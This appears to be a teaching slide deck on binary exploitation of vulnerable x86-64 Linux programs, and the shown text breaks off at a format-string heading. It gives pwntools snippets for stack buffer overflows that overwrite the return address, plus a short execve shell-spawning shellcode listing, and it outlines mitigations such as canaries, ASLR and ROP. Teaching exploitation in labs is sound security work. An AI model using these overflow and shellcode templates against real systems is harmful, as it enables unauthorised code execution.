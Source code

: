 ```yaml
---
marp: true
theme: leet
---
```


# pwn

exploiting (very) vulnerable x86-64 binaries on linux

---

## c bad

- trusts you too much
  - array accesses
  - integer overflows
- mixing data and metadata
  - return addresses on stack
  - null-terminated strings
- manual {init,cleanup}
- poor type system

---

some dangerous library functions:

- `gets`
- `strcpy`
- `scanf`
- `sprintf`
- …

---

![gets deemed dangerou](./media/gets.png)

---

## buffer overflows

---

### stepping out of our lane

- causing crashes
- changing stuff on the stack
- jumping to arbitrary places in the code
  - other functions
  - middle of other functions
- running arbitrary code*

---

### causing crashes

Inputs like `AAAAAAAAAAAAAAAAAAAAAAAAAAAA…`

```py
from pwn import *

p = process("./vuln")
p.sendline(b"A" * 500) # adjust number as necessary
```

---

### changing stuff on the stack

```py
from pwn import *

padding = 64

p = process("./vuln")
p.sendline((b"A" * padding) + p32(0xDEADBEEF))
```

---

### changing (especially useful) stuff on the stack

1. set a breakpoint in the vulnerable function
2. run
3. check the addresses of
   - the vulnerable buffer
   - saved rip (`info frame`)
4. send `(b'A' * padding) + p64(spoof_return_addr)`

---

```py
from pwn import *

saved_rip_addr = 0x7fffffff...
buffer_addr = 0x7fffffff...
padding_size = saved_rip_addr - buffer_addr

spoofed_return_addr = 0x40...

p = process("./pwnable")
p.sendline((b'A' * padding_size) + p64(spoofed_return_addr))
p.interactive()
```

---

### shellcode

compiled bytes (position-independent) that do stuff

examples:

- open a shell
- read a file
- change permissions on a file
- callback shell
- …

considerations: prohibited bytes, …

---

```
mov rax, 59
mov rbx, 0x68732f2f6e69622f
push rbx
mov rdi, rsp
mov rsi, 0
mov rdx, 0
syscall
```

---

### write ⊕ execute

don't execute stack contents as code!

gcc requires you to explicitly disable this (`-z execstack`).

---

### stack canaries

1. insert some secret bytes at the boundaries of buffers
2. before leaving the function, verify that they haven't been overwritten

gcc requires you to explicitly disable this (`-fno-stack-protector`).

---

### aslr

---

### rop

1. make a list of useful gadgets
2. chain gadgets to execute arbitrary-ish assembly
3. ???
4. profit

<!-- also jop -->

---

### format string vulns
